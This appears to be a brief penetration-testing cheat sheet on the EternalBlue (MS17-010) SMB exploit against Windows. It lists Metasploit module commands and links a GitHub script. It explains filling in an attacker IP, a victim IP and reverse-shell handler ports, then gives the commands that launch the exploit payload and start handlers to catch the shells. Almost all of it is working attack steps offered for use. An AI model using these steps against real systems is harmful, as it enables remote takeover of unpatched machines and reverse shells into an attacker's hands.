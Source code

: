 ## Ethernal blue 

### Metasploit 
```
msfonsole
use exploit/windows/smb/ms17_010_eternalblue
Set RHOST
Set RPORT
```

### Github

https://github.com/valentinoJones/ReptileHouse-Eternal-Blue

(this script requires impacket install on the machine)

the only thing to do is change the start.sh script
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```
fire up the script and just follow the on screen instructions after the 7 step generation process.
```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python eternalblue_exploit7.py exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.


```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```
